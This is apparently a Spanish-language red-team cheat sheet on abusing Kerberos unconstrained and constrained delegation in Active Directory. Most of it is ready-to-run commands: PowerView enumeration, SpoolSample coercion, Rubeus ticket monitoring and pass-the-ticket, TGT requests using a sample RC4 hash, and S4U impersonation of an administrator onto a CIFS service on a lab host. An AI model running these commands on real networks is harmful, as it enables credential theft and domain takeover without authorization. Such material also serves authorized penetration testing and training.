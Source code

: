**Detect** 🕵️‍♂️
```powershell
Get-DomainComputer -Unconstrained | select Dnshostname,operatingsystem
```

**SpoolSample**
`execute-assembly c:\Binaries\Rubeus.exe monitor /interval:10 /nowrap`
`execute-assembly c:\Binaries\SpoolSample.exe dc-2 srv-1`

Podemos usar el ticket si lo convertimos de B64 a su formato nativo o podemos usar rubeus

`Rubeus.exe ptt /ticket:<base64ticket>`

#### Constrained 🔗 Alternative Service   
tag : #unconstrained 
</br>

**a diferencia de Unconstrained, Constrained Restringe los servicios a lo que el Usuario puede aceder**

>**Para aprovecharnos de **Alternative Service** debemos primero hacernos con la maquina, pedir su tgt, impersonalizar y alternar el servicio.**

**Detect** 🕵️‍♂️
Enumerate Users and Computers with constrained delegation
```powershell
Get-DomainUser -TrustedToAuth | select userprincipalname,msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto
```

**Attacking** ⚔
Primero necesitamos un ticket de usuario para pedir el vale de servicio.

1. Pidiendo un TGT desde el usuario que tiene un vale para el TGS
`execute-assembly /opt/tools/rubeus/Rubeus.exe tgtdeleg /nowrap`

Alternativa
Solicitando un TGT si es que tenemos el hash o la contraseña del usuario
```shell
execute-assembly /opt/tools/rubeus/Rubeus.exe asktgt /user:svc_test /rc4:2e39dc7d0f27069d7bcabb8670a9348b /nowrap
```

2. Solicitando el TGS e impersonalizando a un usuario Administrador en la computador que tiene el **Unconstraied Delegation**
```shell
#(S4U con Ticket)
execute-assembly /opt/tools/rubeus/Rubeus.exe s4u /user:svc_test /impersonateuser:Sadam /msdsspn:cifs/sql-1.dev.evilcorp.local /ticket:[..Ticket..] /nowrap

#(RC4 | AES256)
execute-assembly /opt/tools/rubeus/Rubeus.exe s4u /user:svc_test /impersonateuser:Sadam /msdsspn:cifs/sql-1.dev.evilcorp.local /rc4:2e39dc7d0f27069d7bcabb8670a9348b /nowrap

#(Tambien Podemos Carga el ticket directamente en memoria /ptt)
execute-assembly /opt/tools/rubeus/Rubeus.exe s4u /user:svc_test /impersonateuser:Sadam /msdsspn:cifs/sql-1.dev.evilcorp.local /rc4:2e39dc7d0f27069d7bcabb8670a9348b /nowrap /ptt

```
